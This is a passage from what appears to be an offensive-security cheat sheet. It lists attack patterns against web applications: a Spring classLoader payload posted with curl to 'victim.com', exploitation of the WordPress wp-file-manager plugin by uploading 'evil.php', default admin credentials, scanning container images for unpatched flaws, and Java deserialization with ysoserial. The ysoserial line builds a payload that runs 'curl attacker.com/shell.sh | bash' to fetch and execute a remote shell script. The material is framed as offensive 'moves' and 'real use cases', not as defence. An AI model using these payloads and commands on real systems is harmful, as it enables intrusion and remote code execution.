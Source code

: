 ```bash
curl -X POST victim.com/path -d 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=...'
```

---

## 💣 6. **WordPress & Plugin Vulnerabilities**

### Common Patterns:

* Exposed `wp-admin` or `/wp-json/` APIs
* Insecure plugins (Slider Revolution, Duplicator, File Manager)
* Default creds (`admin:admin`)
* Arbitrary file upload & LFI

### 🔥 Real Use Case:

* Exploited `wp-file-manager` → upload `evil.php`
* Accessed via `/wp-content/plugins/wp-file-manager/lib/files/evil.php`

---

## 💣 7. **Container Images with Known CVEs**

### 🔎 Misuse:

* Docker images with outdated libraries (glibc, openssl)
* No `COPY` filtering, dev tools exposed (`.env`, SSH keys)
* Publicly hosted on Docker Hub

### 🧠 Offensive Move:

* Pull vulnerable image
* Scan with `Trivy`, `grype`, `dockle`
* Exploit unpatched packages or misconfigs

---

## 💣 8. **Java Deserialization in Legacy Apps**

### 🔎 Exploitable Libraries:

* Apache Commons Collections
* Jackson, XStream, Hibernate

### 🔥 Exploitation Tool: `ysoserial`

```bash
java -jar ysoserial.jar CommonsCollections5 'curl attacker.com/shell.sh | bash' > payload.ser
```
